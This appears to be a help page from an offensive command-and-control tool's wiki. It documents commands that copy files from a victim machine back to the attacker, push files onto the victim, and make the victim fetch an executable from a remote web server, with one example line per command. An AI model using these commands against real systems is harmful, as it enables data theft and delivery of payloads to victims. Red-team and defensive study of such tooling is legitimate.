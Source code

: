 # File Management

[[images/file-management-help.PNG]]

### Download-File

Simply enter the path and name of the file to download, (copy back to the attackers system).

`Download-File -Source C:\Temp\Run.exe`

### Upload-File

Opposite of the above command

`Upload-File -Source C:\Temp\Run.exe -Destination C:\Temp\Test.exe`

This is not considered the be Opsec safe for obvious reasons.

### Web-Upload-File

Here we have the option to upload a file to a victim system but this time we allow for the file to be copied from a remote web server. Again this command is not considered Opsec safe.

`Web-Upload-File -From 'http://www.example.com/App.exe' -To 'C:\Temp\App.exe'`
